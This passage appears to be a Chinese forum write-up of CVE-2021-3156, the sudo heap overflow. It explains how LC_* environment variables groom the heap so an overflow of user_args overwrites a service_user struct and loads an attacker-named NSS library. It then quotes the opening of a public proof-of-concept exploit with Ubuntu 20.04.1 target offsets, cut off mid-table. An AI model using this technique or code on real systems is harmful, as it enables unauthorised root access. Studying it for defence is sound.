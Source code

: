 ```

```

![](https://attach.52pojie.cn/forum/202105/13/201111rsytsjtonsdewu8u.png)

 ![](https://attach.52pojie.cn/forum/202105/13/194035drt6896ts6t6t888.png) 

通过源码分析，在完成整个 service_table 的过程中是按照行进行例如 passwd 为 name_database_entry，files、systemd 为 service_user，按照顺序进行初始化并加入链表。  
我们最终想要达到的目的是溢出改写一个 service_user 结构体的 known(XXX) 并由 nss_load_library 函数拼接为 libnss_XXX.so.2 并调用。我们的溢出手段是通过 user_args，因此，在写 user_args 之前，需要正好有一个 free 态的 bin，使得 user_args 刚好能够申请到，然后将随后的 service_user 溢出改写，并且不影响前面的 name_database_entry，否则链表被破坏后，将会造成 segment fault。  
在 main 函数中，setlocale(LC_ALL, "")，会堆环境变量进行初始化，这里面会进行多次堆申请和释放操作；随后 get_user_info()，会将 service_table 进行初始化操作；在 policy_check() 中会将 argv 复制到 user_args 的堆中。  
因此主要机会在于 setlocale 的操作中，通过调试发现，可以通过设置 LC_CTYPE，LC_MESSAGES，LC_TIME、LC_ALL 等变量控制堆的分配，如果能够在 service_table 初始化之前，在堆的前面留下多个 0x20 大小的堆，并在较远处留下 0x40 大小的堆，就正好将 name_database_entry 以及 service_user 结构体分开较大距离，方便溢出，并在 user_args 分配前将靠近 service_user 前面的堆释放，留给 user_args 获取，这样就能完美构造堆溢出的条件。

```
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct {
        char *target_name;
        char *sudoedit_path;
        uint32_t smash_len_a;
        uint32_t smash_len_b;
        uint32_t null_stomp_len;
        uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
```